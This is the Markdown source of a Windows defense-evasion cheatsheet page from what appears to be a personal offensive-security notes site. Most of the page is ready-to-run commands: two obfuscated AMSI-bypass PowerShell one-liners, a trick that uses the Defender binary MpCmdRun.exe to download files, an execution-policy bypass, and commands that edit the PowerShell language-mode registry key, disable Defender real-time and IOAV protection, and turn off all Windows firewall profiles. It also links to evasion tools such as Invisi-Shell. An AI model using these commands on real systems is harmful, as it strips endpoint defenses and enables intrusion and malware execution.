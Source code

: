 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2023-03-16
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI","https://api.github.com/repos/OmerYa/Invisi-Shell"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# amsi evasion # 01
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# amsi evasion # 02
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') +
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-
varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"(
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
 ```

- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

## <a name='applocker'></a>applocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## download
```sh
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='edr'></a>edr

* [dinvoke](https://hack.technoherder.com/dinvoke/)
* [palo cortex xdr](/edr/defeva#win-xdr)
* [windows defender](/edr/defeva#win-defender)

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# https://github.com/OmerYa/Invisi-Shell
# bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies
RunWithRegistryNonAdmin.bat
```

## <a name='windows-defender'></a>windows-defender
```powershell
# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

